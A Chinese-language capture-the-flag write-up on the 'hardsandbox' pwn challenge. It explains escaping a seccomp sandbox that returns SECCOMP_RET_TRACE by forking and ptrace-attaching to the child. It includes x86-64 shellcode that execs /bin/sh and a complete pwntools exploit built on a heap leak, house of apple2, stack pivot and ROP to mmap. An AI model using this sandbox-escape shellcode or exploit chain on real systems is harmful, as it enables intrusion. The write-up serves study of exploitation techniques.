


# 前言
这次羊城杯我和火箭发挥的异常的好，pwn5题出了4题，很可惜hardsandbox这题没出。主要是没见过RET_TRACE的沙箱，没有积累过此类板子。

# 题目

沙箱如上图所示，不仅仅限制了execve，连常规的orw也被限制了open和openat。
过这次的沙箱全部都是返回TRACE，要是比赛时机灵点可以在man上查找
[man-seccomp](https://man7.org/linux/man-pages/man2/seccomp.2.html)

>       SECCOMP_RET_KILL_PROCESS (since Linux 4.14)
              This value results in immediate termination of the
              process, with a core dump.  The system call is not
              executed.  By contrast with SECCOMP_RET_KILL_THREAD below,
              all threads in the thread group are terminated.  (For a
              discussion of thread groups, see the description of the
              CLONE_THREAD flag in clone(2).)

              The process terminates as though killed by a SIGSYS
              signal.  Even if a signal handler has been registered for
              SIGSYS, the handler will be ignored in this case and the
              process always terminates.  To a parent process that is
              waiting on this process (using waitpid(2) or similar), the
              returned wstatus will indicate that its child was
              terminated as though by a SIGSYS signal.

       SECCOMP_RET_KILL_THREAD (or SECCOMP_RET_KILL)
              This value results in immediate termination of the thread
              that made the system call.  The system call is not
              executed.  Other threads in the same thread group will
              continue to execute.

              The thread terminates as though killed by a SIGSYS signal.
              See SECCOMP_RET_KILL_PROCESS above.

              Before Linux 4.11, any process terminated in this way
              would not trigger a coredump (even though SIGSYS is
              documented in signal(7) as having a default action of
              termination with a core dump).  Since Linux 4.11, a
              single-threaded process will dump core if terminated in
              this way.

              With the addition of SECCOMP_RET_KILL_PROCESS in Linux
              4.14, SECCOMP_RET_KILL_THREAD was added as a synonym for
              SECCOMP_RET_KILL, in order to more clearly distinguish the
              two actions.

              Note: the use of SECCOMP_RET_KILL_THREAD to kill a single
              thread in a multithreaded process is likely to leave the
              process in a permanently inconsistent and possibly corrupt
              state.

       SECCOMP_RET_TRAP
              This value results in the kernel sending a thread-directed
              SIGSYS signal to the triggering thread.  (The system call
              is not executed.)  Various fields will be set in the
              siginfo_t structure (see sigaction(2)) associated with
              signal:

              •  si_signo will contain SIGSYS.

              •  si_call_addr will show the address of the system call
                 instruction.

              •  si_syscall and si_arch will indicate which system call
                 was attempted.

              •  si_code will contain SYS_SECCOMP.

              •  si_errno will contain the SECCOMP_RET_DATA portion of
                 the filter return value.

              The program counter will be as though the system call
              happened (i.e., the program counter will not point to the
              system call instruction).  The return value register will
              contain an architecture-dependent value; if resuming
              execution, set it to something appropriate for the system
              call.  (The architecture dependency is because replacing
              it with ENOSYS could overwrite some useful information.)

       SECCOMP_RET_ERRNO
              This value results in the SECCOMP_RET_DATA portion of the
              filter's return value being passed to user space as the
              errno value without executing the system call.

       SECCOMP_RET_USER_NOTIF (since Linux 5.0)
              Forward the system call to an attached user-space
              supervisor process to allow that process to decide what to
              do with the system call.  If there is no attached
              supervisor (either because the filter was not installed
              with the SECCOMP_FILTER_FLAG_NEW_LISTENER flag or because
              the file descriptor was closed), the filter returns ENOSYS
              (similar to what happens when a filter returns
              SECCOMP_RET_TRACE and there is no tracer).  See
              seccomp_unotify(2) for further details.

              Note that the supervisor process will not be notified if
              another filter returns an action value with a precedence
              greater than SECCOMP_RET_USER_NOTIF.

       SECCOMP_RET_TRACE
              When returned, this value will cause the kernel to attempt
              to notify a ptrace(2)-based tracer prior to executing the
              system call.  If there is no tracer present, the system
              call is not executed and returns a failure status with
              errno set to ENOSYS.

              A tracer will be notified if it requests
              PTRACE_O_TRACESECCOMP using ptrace(PTRACE_SETOPTIONS).
              The tracer will be notified of a PTRACE_EVENT_SECCOMP and
              the SECCOMP_RET_DATA portion of the filter's return value
              will be available to the tracer via PTRACE_GETEVENTMSG.

              The tracer can skip the system call by changing the system
              call number to -1.  Alternatively, the tracer can change
              the system call requested by changing the system call to a
              valid system call number.  If the tracer asks to skip the
              system call, then the system call will appear to return
              the value that the tracer puts in the return value
              register.

              Before Linux 4.8, the seccomp check will not be run again
              after the tracer is notified.  (This means that, on older
              kernels, seccomp-based sandboxes must not allow use of
              ptrace(2)—even of other sandboxed processes—without
              extreme care; ptracers can use this mechanism to escape
              from the seccomp sandbox.)

              Note that a tracer process will not be notified if another
              filter returns an action value with a precedence greater
              than SECCOMP_RET_TRACE.

       SECCOMP_RET_LOG (since Linux 4.14)
              This value results in the system call being executed after
              the filter return action is logged.  An administrator may
              override the logging of this action via the
              /proc/sys/kernel/seccomp/actions_logged file.

       SECCOMP_RET_ALLOW
              This value results in the system call being executed.

       If an action value other than one of the above is specified, then
       the filter action is treated as either SECCOMP_RET_KILL_PROCESS
       (since Linux 4.14) or SECCOMP_RET_KILL_THREAD (in Linux 4.13 and
       earlier).
英文文档虽然又臭又长，但是不得不说，毕竟这些东西都老外写的，他们如果解释不清楚，大概这个世界上也没有人能解释清楚了。
```
       SECCOMP_RET_TRACE
              When returned, this value will cause the kernel to attempt
              to notify a ptrace(2)-based tracer prior to executing the
              system call.  If there is no tracer present, the system
              call is not executed and returns a failure status with
              errno set to ENOSYS.
              当返回SECCOMP_RET_TRACE时，这个值会让内核尝试告知该进程的Tracer，
              如果没有现成的Tracer，这个系统调用不会被执行，而且会返回失败status

              A tracer will be notified if it requests
              PTRACE_O_TRACESECCOMP using ptrace(PTRACE_SETOPTIONS).
              The tracer will be notified of a PTRACE_EVENT_SECCOMP and
              the SECCOMP_RET_DATA portion of the filter's return value
              will be available to the tracer via PTRACE_GETEVENTMSG.
              如果存在一个使用ptrace(PTRACE_SETOPTIONS)设置成PTRACE_O_TRACESECCOMP
              的Tracer，这个Tracer将会得到PTRACE_EVENT_SECCOMP作为通知，这个Tracer
              也可以通过PTRACE_GETEVENTMSG来获取xxxxx返回值（这段看不懂）

              The tracer can skip the system call by changing the system
              call number to -1.  Alternatively, the tracer can change
              the system call requested by changing the system call to a
              valid system call number.  If the tracer asks to skip the
              system call, then the system call will appear to return
              the value that the tracer puts in the return value
              register.
              Tracer可以通过在syscall之前将rax改成-1来跳过该系统调用，同样的，Tracer也可以
              在调用syscall时将rax改成需要的值来实现其想实现的调用，如果Tracer要求跳过某个
              syscall，syscall的返回值将是Tracer放在返回值寄存器中的值。
```
目标很明确，就是想办法调用ptrace来跳过被禁用而返回SECCOMP_RET_TRACE的调用。

# 板子
首先fork一个类似进程，然后父进程attach到子进程，并且同意子进程的所有被SECCOMP捕获的调用
具体ptrace的使用还挺复杂的，我查半天文档也没搞明白，还是对着[别人的wp](https://qanux.github.io/2024/08/28/%E7%BE%8A%E5%9F%8E%E6%9D%AF%202024%20pwn%20writeup/index.html#sandbox-after-competition) [以及](https://blog.csdn.net/2301_79327647/article/details/141761305) 一点点尝试得到的

值得一提的是，调试过程不能使用别的调试工具，最多只能调试父进程，因为子进程被父进程附加了，如果调试器再附加上去就达不到父进程和子进程互动的效果了
```c
int main()
{
    pid_t child = fork();
    sandbox();

    if (child == 0)
    {
        // 子进程

        // sleep3秒，防止父进程还没attach就执行execve调用
        // 导致父进程无法CONT该调用
        struct timespec req = {3, 0};
        nanosleep(&req, NULL);

        // 执行一个 execve 系统调用来触发 seccomp
        execl("/usr/bin/ls", "ls", NULL);

        // 如果 execve 失败，退出
        _exit(0);
    }
    else
    {
        // 父进程：负责追踪子进程
        int status;

        // attach到子进程
        ptrace(PTRACE_ATTACH, child, NULL, NULL);

        // attach之后子进程会自动暂停，解除waitpid的等待状态
        waitpid(child, &status, 0);
        // SETOPTIONS只需要执行一次，表示如果有SECCOMP_RET_TRACE，Tracer希望被告知
        // 所以放在循环外面，
        ptrace(PTRACE_SETOPTIONS, child, NULL, PTRACE_O_TRACESECCOMP);
        // 继续
        ptrace(PTRACE_CONT, child, 0, 0);

        while (1)
        {
            // 如果成功等到子进程触发SECCOMP，发出信号并暂停
            if (waitpid(child, &status, 0) < 0)
            {
                perror("waitpid");
                exit(EXIT_FAILURE);
            }
            // 就通过ptrace调用允许该调用
            ptrace(PTRACE_CONT, child, 0, 0);
        }
    }
    return 0;
}
```
如果是shellcode版本的话，为了方便，可以把SETOPTIONS也放到循环内部。
```c
int main()
{
    pid_t child = fork();

    if (child == 0)
    {
        // 子进程
        struct timespec req = {3, 0};
        nanosleep(&req, NULL);
        execl("/usr/bin/ls", "ls", NULL);
    }
    else
    {
        // 父进程:负责追踪子进程
        ptrace(PTRACE_ATTACH, child, NULL, NULL);
        while (1)
        {
            waitpid(child, 0, 0);
            ptrace(PTRACE_SETOPTIONS, child, NULL, PTRACE_O_TRACESECCOMP);
            ptrace(PTRACE_CONT, child, 0, 0);
        }
    }
    return 0;
}
```
## 完整板子
下面是完整板子
```python
order1 = b'/bin/sh'[::-1].hex()

shellcode = asm(f'''
    mov rax, 57
    syscall
    cmp rax, 0
    je child_process
parent_process:
    mov rsi, rax
    mov r8,  rax

    mov rax, 101
    mov rdi, 0x10
    xor rdx, rdx
    xor r10, r10 
    syscall                 /* ptrace(PTRACE_ATTACH, child_pid, 0, 0) */
monitor_child:
    mov rdi, r8
    mov rsi, rsp
    xor rdx, rdx
    xor r10, r10
    mov rax, 61
    syscall                 /* invoke wait4() */

    mov rdi, 0x4200
    mov rsi, r8
    xor rdx, rdx
    mov r10, 0x00000080
    mov rax, 101
    syscall                 /* ptrace(PTRACE_SETOPTIONS, child_pid, 0, 0) */
    
    mov rdi, 0x7
    mov rsi, r8
    xor rdx, rdx
    xor r10, r10
    mov rax, 101
    syscall                 /* ptrace(PTRACE_CONT, child_pid, 0, 0) */
    
    jmp monitor_child
child_process:
    /* sleep(5) */
    push 0
    push 5
    mov rdi, rsp
    xor esi, esi
    push 0x23
    pop rax
    syscall                 /* nanosleep(requested_time='rsp', remaining=0) */
    
    mov rax, 0x{order1}
    push rax
    mov rdi, rsp
    mov rsi, 0
    xor rdx, rdx
    mov rax, 59
    syscall                 /* execve("/bin/sh",0,0) */
    
    jmp child_process
```

# 随记
当时比赛由于不太清楚ptrace的使用方法，尝试了openat2，结果发现后来出题人使用了比较低的内核版本，当时还没有openat2。
我说那要不试试把栈上的环境变量全部打印出来，说不定能整个非预期，结果出题人在环境变量上放的是假flag。
出题人真的希望咱把ptrace搞懂啊哈哈哈。

# houseofapple2接rop
还有就是这题前半部分的houseofapple2接rop的思路。
有些版本是使用setcontext的gadget，这题是使用svcudp_reply+26的gadget，利用houseofapple2可以控制rdi的特性，在保持控制程序流的情况下，同时控制rbp，以达到栈迁移rop的效果




# exp
下面就是完整exp，主要是留个档，哪天要是忘了一些细节在回来翻翻
```python
def debug(io):
    gdb.attach(io,
    '''
    b add_note
    # b delete_note
    # b edit_note
    # b show_note
    b *_IO_flush_all_lockp
    b *svcudp_reply+26
    '''
    )

io = process("./pwn")

def add(index,size):
    io.sendlineafter(b'Exit',b'1')
    io.sendlineafter(b'Index: ',str(index))
    io.sendlineafter(b'Size: ',str(size))
def delete(index):
    io.sendlineafter(b'Exit',b'2')
    io.sendlineafter(b'Index: ',str(index))
def edit(index,content):
    io.sendlineafter(b'Exit',b'3')
    io.sendlineafter(b'Index: ',str(index))
    io.sendafter(b'Content: ',content)
def show(index):
    io.sendlineafter(b'Exit',b'4')
    io.sendlineafter(b'Index: ',str(index))

add(0,0x510)
add(1,0x508)
add(2,0x500)
delete(0)
add(3,0x520)
show(0)
libc_base = u64(io.recv(0x6).ljust(0x8,b'\x00')) - 0x1f70f0
edit(0,b'aaaaaaaa'*2)
show(0)
io.recvuntil(b'aaaaaaaaaaaaaaaa')
heap_base = u64(io.recv(0x6).ljust(0x8,b'\x00')) - 0x290
log.success(hex(libc_base))
log.success(hex(heap_base))
edit(0,p64(libc_base + 0x1f70f0)*2 + p64(heap_base + 0x290) + p64(libc_base + 0x1f7640))
delete(2)
add(4,0x520)

fake_io_list = b'\x00'*0x18 + p64(0x1) + b'\x00'*0x18 + p64(heap_base + 0x1710) + b'\x00'*0x50 + p64(heap_base + 0x2c0) + b'\x00'*(0xd8-0xa8) + p64(libc_base + 0x1f30a0)
edit(2,fake_io_list)

fake_wide_data = b'\x00'*0x100 + p64(heap_base + 0x11f0)
edit(0,fake_wide_data)
fake_wide_data_vtable = b'\x00'*0x78 + p64(libc_base + 0x1630aa)
edit(3,fake_wide_data_vtable)

leave_ret = libc_base + 0x50877
rax = libc_base + 0x3fa43
rdi = libc_base + 0x23b65
rsi = libc_base + 0x251be
rcx = libc_base + 0x99a83
rdx_rbx = libc_base + 0x8bcd9
r8 = libc_base + 0x8c41b # pop r8; test ecx, ecx; jne 0x8c428; ret;

syscall = libc_base + 0x10CD92
system = libc_base + 0x4e520

mmap = flat(rax,0xA,rdi,heap_base,rsi,0x21000,rdx_rbx,0x7,0x0,syscall,(heap_base + 0x1788))

order1 = b'/bin/sh'[::-1].hex()

shellcode = asm(f'''
    mov rax, 57
    syscall
    cmp rax, 0
    je child_process
parent_process:
    mov rsi, rax
    mov r8,  rax

    mov rax, 101
    mov rdi, 0x10
    xor rdx, rdx
    xor r10, r10 
    syscall                 /* ptrace(PTRACE_ATTACH, child_pid, 0, 0) */
monitor_child:
    mov rdi, r8
    mov rsi, rsp
    xor rdx, rdx
    xor r10, r10
    mov rax, 61
    syscall                 /* invoke wait4() */

    mov rdi, 0x4200
    mov rsi, r8
    xor rdx, rdx
    mov r10, 0x00000080
    mov rax, 101
    syscall                 /* ptrace(PTRACE_SETOPTIONS, child_pid, 0, 0) */
    
    mov rdi, 0x7
    mov rsi, r8
    xor rdx, rdx
    xor r10, r10
    mov rax, 101
    syscall                 /* ptrace(PTRACE_CONT, child_pid, 0, 0) */
    
    jmp monitor_child
child_process:
    /* sleep(5) */
    push 0
    push 5
    mov rdi, rsp
    xor esi, esi
    push 0x23
    pop rax
    syscall                 /* nanosleep(requested_time='rsp', remaining=0) */
    
    mov rax, 0x{order1}
    push rax
    mov rdi, rsp
    mov rsi, 0
    xor rdx, rdx
    mov rax, 59
    syscall                 /* execve("/bin/sh",0,0) */
    
    jmp child_process
''')
edit(4,p64(leave_ret) + p64(rdx_rbx) + p64(0x0) + p64(heap_base + 0x1710 - 0x28) + mmap + shellcode)

debug(io)
io.sendlineafter(b'Exit',b'5')

io.interactive()
```

# test.c
再下面是ptrace的测试程序，在我的环境下，`gcc test.c -lseccomp`才行
得加个`-lseccomp`参数
```
#include <errno.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/prctl.h>
#include <sys/ptrace.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

// 如果未定义 ORIG_RAX，手动定义它
#ifndef ORIG_RAX
#ifdef __x86_64__
#define ORIG_RAX 15 // 对应于 x86_64 的系统调用号
#elif defined(__i386__)
#define ORIG_RAX 11 // 对应于 x86 的系统调用号
#else
#error "Unsupported architecture"
#endif
#endif

// 设置 seccomp 沙盒，阻止 execve 系统调用，并触发 PTRACE
void sandbox()
{
    scmp_filter_ctx ctx;

    // 创建 seccomp 过滤器，默认动作是杀死进程
    ctx = seccomp_init(SCMP_ACT_ALLOW);
    if (!ctx)
    {
        perror("seccomp_init failed");
        exit(EXIT_FAILURE);
    }

    // 阻止 execve 系统调用，并设置为返回 SIGTRACE
    if (seccomp_rule_add(ctx, SCMP_ACT_TRACE(0), SCMP_SYS(execve), 0) < 0)
    {
        perror("seccomp_rule_add execve failed");
        exit(EXIT_FAILURE);
    }


    // 加载 seccomp 过滤器
    if (seccomp_load(ctx) < 0)
    {
        perror("seccomp_load failed");
        exit(EXIT_FAILURE);
    }

    // 清理
    seccomp_release(ctx);
}

int main()
{
    pid_t child = fork();
    sandbox();

    if (child == 0)
    {
        struct timespec req = {3, 0};
        nanosleep(&req, NULL);

        // 执行一个 execve 系统调用来触发 seccomp
        execl("/usr/bin/ls", "ls", NULL);

        // 如果 execve 失败，退出
        _exit(0);
    }
    else
    {
        // 父进程：负责追踪子进程
        int status;

        ptrace(PTRACE_ATTACH, child, NULL, NULL);

        waitpid(child, &status, 0);
        printf("0x%x\n",status >> 8);
        ptrace(PTRACE_SETOPTIONS, child, NULL, PTRACE_O_TRACESECCOMP);
        ptrace(PTRACE_CONT, child, 0, 0);

        while (1)
        {
            if (waitpid(child, &status, 0) < 0)
            {
                perror("waitpid");
                exit(EXIT_FAILURE);
            }
            printf("0x%x\n",status >> 8);
            ptrace(PTRACE_CONT, child, 0, 0);
        }
    }
    return 0;
}
```
